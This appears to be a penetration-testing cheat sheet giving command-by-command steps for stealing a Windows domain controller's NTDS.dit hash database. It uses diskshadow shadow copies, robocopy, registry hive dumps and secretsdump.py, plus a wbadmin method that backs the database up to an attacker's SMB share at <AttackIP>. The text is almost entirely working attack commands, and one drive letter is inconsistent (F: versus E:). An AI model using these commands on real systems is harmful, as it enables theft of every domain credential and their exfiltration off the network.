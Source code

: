 ### AD Attack

Direct access to the Domain Controller's file system allows for the theft of the `NTDS.dit` database, which contains all NTLM hashes for domain users and computers.

#### Using diskshadow.exe

1. Create a shadow copy of the `C` drive:

```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```

2. Copy `NTDS.dit` from the shadow copy:

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Alternatively, use `robocopy` for file copying:

```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

3. Extract `SYSTEM` and `SAM` for hash retrieval:

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

4. Retrieve all hashes from `NTDS.dit`:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Using wbadmin.exe

1. Set up NTFS filesystem for SMB server on attacker machine and cache SMB credentials on the target machine.
2. Use `wbadmin.exe` for system backup and `NTDS.dit` extraction:
   ```cmd
   net use X: \\<AttackIP>\sharename /user:smbuser password
   echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
   wbadmin get versions
   echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
   ```
